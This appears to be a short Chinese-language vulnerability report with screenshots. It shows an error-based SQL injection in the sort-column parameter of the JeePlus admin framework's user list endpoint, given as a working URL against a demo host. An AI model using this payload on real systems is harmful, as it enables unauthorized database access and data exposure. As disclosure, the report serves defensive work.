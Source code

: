 1、登录：http://demo1.jeeplus.org/#/login

<img width="1191" height="669" alt="4e44732afb7a650c5076327b88f6340" src="https://github.com/user-attachments/assets/2b35a319-5e17-4d11-8023-2a45f0bd87a7" />

2、访问地址：http://demo1.jeeplus.org/jeeplus-vue/sys/user/list?orders%5B0%5D.column=updatexml(1,concat(0x7e,user(),0x7e),1)

<img width="1075" height="223" alt="a1e02a5c037484ed44fb6be4704e857" src="https://github.com/user-attachments/assets/f4996d79-f5ec-474c-9094-c098c77e5b6d" />
